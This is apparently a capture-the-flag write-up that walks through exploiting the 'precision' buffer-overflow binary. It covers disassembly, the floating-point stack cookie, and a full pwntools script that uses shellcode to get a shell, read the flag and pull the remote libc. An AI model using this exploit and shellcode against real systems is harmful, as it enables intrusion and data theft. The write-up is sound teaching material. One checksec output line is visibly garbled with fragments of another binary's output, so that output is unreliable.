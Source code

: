 ### TL; DR
* Overflow

Precision was the lowest point exploitation challenge because it was literally a buffer overflow :3

Let's start by getting an idea what is up with it:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ file precision
prec: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf2c69f92c3f6d68319ee39c0926e84bccdeb0371, not stripped
{% endhighlight %}

Alright, and the security mitigations it has:

{% highlight bash lineanchors %}
vagrant@precise64:~/csawctf$ ~/Template/checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precfound      NX enabled    No PIE          No RPATH   No RUNPATH   contacts
{% endhighlight %}

Oh boy! No NX! So we can put shellcode into our payload :3

{% highlight nasm lineanchors %}
804856f:       lea    eax,[esp+0x18]
8048573:       mov    DWORD PTR [esp+0x4],eax     ; Our input
8048577:       mov    DWORD PTR [esp],0x8048682   ; Scanf format string
804857e:       call   8048410 <__isoc99_scanf@plt>
{% endhighlight %}

Oh man, we have a `scanf` that prompts us for our input and stores it in a static buffer.

If we look at the function prologue, we get an idea how big this buffer is:

{% highlight nasm lineanchors %}
8048523:       sub    esp,0xa0 ; Our return address will be around 0xa0 bytes
{% endhighlight %}

The interesting part of this challenge comes from this part of `main`:

{% highlight nasm lineanchors %}
8048583:       fld    QWORD PTR [esp+0x98]
804858a:       fld    QWORD PTR ds:0x8048690
8048590:       fucomip st,st(1)
8048592:       fstp   st(0)
8048594:       jp     80485a9 <main+0x8c>
8048596:       fld    QWORD PTR [esp+0x98]
804859d:       fld    QWORD PTR ds:0x8048690
80485a3:       fucomip st,st(1)
80485a5:       fstp   st(0)
80485a7:       je     80485c1 <main+0xa4>
{% endhighlight %}

We see a lot of floating point operations and at the beginning of that code we see a floating point load from `0x8048690`. Looking at the beginning of this function we see the same address again:

{% highlight nasm lineanchors %}
8048529:       fld    QWORD PTR ds:0x8048690
804852f:       fstp   QWORD PTR [esp+0x98]
{% endhighlight %}

and it is storing the value in a stack based variable meaning it is most likely using this floating point value as a "stack cookie" more or less. So by simply getting the bytes of this floating point value and sticking them into our payload at the right offset as to align them with where the floating point value is located, we pass this check and get our exploit to land :3

Oh yeah, they also give us the address of our buffer in memory, so it is super easy peasy :3
### Note
This script also includes an example of how to exfiltrate a libc in case you need it for a higher point problem :3

{% highlight python lineanchors %}
from pwn import *

r = remote("54.173.98.115", 1259)


shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80\x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e\x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38\xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36\x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87"

buf = int(r.recvline().strip()[-8:], 16)

r.sendline("A"*(0x80 - len(shellcode)) + shellcode + "\xA5\x31\x5A\x47\x55\x15\x50\x40EEEECCCCDDDD" + p32(buf+8))
r.recv()

r.sendline("cat flag.txt")
print r.recv()

r.sendline("cat /lib32/libc.so.6")

x = ""
while r.can_recv(5):
    x += r.recv()

with open("libc", "wb") as f:
    f.write(x)
{% endhighlight %}